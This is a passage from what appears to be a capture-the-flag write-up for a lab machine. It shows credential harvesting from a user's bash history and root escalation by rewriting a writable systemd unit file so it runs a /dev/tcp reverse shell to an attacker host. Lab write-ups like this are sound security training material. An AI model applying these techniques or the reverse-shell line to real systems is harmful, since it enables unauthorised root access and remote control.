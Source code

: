 ```bash
```
We need to change the user to `drac` first.

## Privilege Escalation drac
I searched a while and found something interesting in the bash_history:
```bash
www-data@ide:/var/www/html/codiad$ cat /home/drac/.bash_history
	mysql -u drac -p '[removed]'
www-data@ide:/var/www/html/codiad$ su drac 
	Password: 
drac@ide:/var/www/html/codiad$ cat /home/drac/user.txt 
	[*** removed ***]
drac@ide:/var/www/html/codiad$
```
With the credentials we can ssh in for a better connection.

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
drac@ide:~$ sudo -l
  [sudo] password for drac: 
  Matching Defaults entries for drac on ide:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User drac may run the following commands on ide:
      (ALL : ALL) /usr/sbin/service vsftpd restart
```
A quick search for privilege escalation with the `service` executable directed me to <a href="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-service-privilege-escalation/">exploit-notes</a>:
```bash
drac@ide:~$ find / -name "vsftpd.service" 2>/dev/null
[reduced the output]
 /lib/systemd/system/vsftpd.service
[reduced the output]
drac@ide:~$ ls -al /lib/systemd/system/vsftpd.service
	-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```
The user `drac` is able to write this file. Let's proceed and open the file `/lib/systemd/system/vsftpd.service` and change:
```bash
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
to
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/[attacker ip]/4444 0>&1'
```
Start an Netcat listener with the port `4444`, reload the deamon and restart `vsftpd`:
```bash
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.                                                                                                                 
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
sudo /usr/sbin/service vsftpd restart
```
On the attacker machine:
```bash
root@ide:/# cd /root
cd /root
root@ide:/root# ls
ls
root.txt
```